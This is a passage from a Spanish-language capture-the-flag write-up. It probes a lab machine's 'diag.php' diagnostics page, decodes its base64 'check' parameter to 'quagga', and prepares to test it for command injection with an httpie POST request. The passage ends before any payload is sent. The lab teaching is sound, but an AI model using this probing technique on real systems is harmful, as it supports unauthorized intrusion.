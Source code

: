 ```html
                                        <div class="form-group">
                                                <button type="submit" class="btn btn-primary">
                                                        Verify status
                                                </button>
                                        </div>
                                </form>
                        </div>
                        <div>
                        <p>quagga     1026  0.0  0.1  24500  2356 ?        Ss   18:30   0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.
1</p><p>quagga     1030  0.0  0.1  29444  3860 ?        Ss   18:30   0:00 /usr/lib/quagga/bgpd --daemon -A 127.0.0.1</p><p>root       1
035  0.0  0.0  15432   168 ?        Ss   18:30   0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd</p>                       </div>
                <div class="col-md-2">
                </div>
        </div>
</div>

    <script src="js/jquery.min.js"></script>
    <script src="js/bootstrap.min.js"></script>
    <script src="js/scripts.js"></script>
  </body>
</html>
```

Espera, a ese pokemon lo he visto antes. Así es, la salida de un `ps`. Esa variable check, suena sospechosa y también conocida, vemos si la podemos decodear:

```text
xbytemx@laptop:~$ printf "cXVhZ2dh" | base64 -d
quagga
```

# Command injection

Así que el parámetro que recibía `diag.php` via POST fue `quagga`. Esto huele a command injection. Preparemos con sustitución algunas cosas:

```html
xbytemx@laptop:~$ http --form http://10.10.10.105/diag.php "Cookie: PHPSESSID=0pe9hk302pnup5s84e9984gd24; path=/" check=$(printf "quagga" | base64)
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 846
Content-Type: text/html; charset=UTF-8
Date: Wed, 02 Jan 2019 18:57:17 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <title>Diagnostics</title>

```